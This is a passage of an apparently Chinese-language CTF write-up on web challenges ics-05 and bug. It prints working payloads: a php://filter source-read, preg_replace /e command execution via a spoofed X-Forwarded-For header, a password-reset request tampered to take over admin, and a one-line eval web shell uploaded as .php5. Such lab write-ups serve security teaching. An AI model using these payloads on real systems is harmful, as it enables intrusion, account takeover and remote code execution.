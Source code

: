 ![](https://img-blog.csdnimg.cn/20200328111247478.png)
那么就去重新注册一个c3tlwDmIn23账号，登录即可
![](https://img-blog.csdnimg.cn/20200328111615856.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
## ics-05
题目描述：其他破坏者会利用工控云管理系统设备维护中心的后门入侵系统
发现只有设备维护中心可进，查看源代码得：
![](https://img-blog.csdnimg.cn/20200329102127990.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
发现是一个文件包含漏洞，伪协议读取源码，得到关键信息
`?page=php://filter/read=convert.base64-encode/resource=index.php`
```php
<?php
//方便的实现输入输出的功能,正在开发中的功能，只能内部人员测试

if ($_SERVER['HTTP_X_FORWARDED_FOR'] === '127.0.0.1') {

    echo "<br >Welcome My Admin ! <br >";

    $pattern = $_GET[pat];
    $replacement = $_GET[rep];
    $subject = $_GET[sub];

    if (isset($pattern) && isset($replacement) && isset($subject)) {
        preg_replace($pattern, $replacement, $subject);
    }else{
        die();
    }

}
?>
```
![](https://img-blog.csdnimg.cn/20200329103008124.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
函数preg_replace() 的漏洞：**当pre_replace的参数pattern输入/e的时候 ,参数replacement的代码当作PHP代码执行**
那么修改XFF头，并在index.php输入：
`?pat=/1/e&rep=system("ls /");&sub=1`
![](https://img-blog.csdnimg.cn/20200329103715998.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
接下来找flag
`?pat=/1/e&rep=system("find -name flag");&sub=1`
![](https://img-blog.csdnimg.cn/20200329103941509.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
`?pat=/1/e&rep=system("ls ./s3chahahaDir/flag");&sub=1`
![](https://img-blog.csdnimg.cn/20200329104212519.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
最后`?pat=/1/e&rep=show_source("./s3chahahaDir/flag/flag.php");&sub=1`直接获取源码或者
`?pat=/1/e&rep=system("cat ./s3chahahaDir/flag/flag.php");&sub=1`，并查看源码得到flag
![](https://img-blog.csdnimg.cn/20200329104333170.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
## bug
一开始以为是二次注入，结果返回wrong，那么只能注册账号看看
![](https://img-blog.csdnimg.cn/20200329105505586.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
在修改密码处抓包，将username改为admin，成功将admin密码修改，登录
![](https://img-blog.csdnimg.cn/20200329105628749.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
修改XFF头为127.0.0.1，进入message，查看源码得到提示
![](https://img-blog.csdnimg.cn/20200329105825166.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
看了wp才发现原来是文件上传`?module=filemanage&do=upload`
![](https://img-blog.csdnimg.cn/20200329110103211.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
有检测<?php，改为`<script language="php">@eval($_POST['pass']);</script>`
并上传的后缀为php5，成功得到flag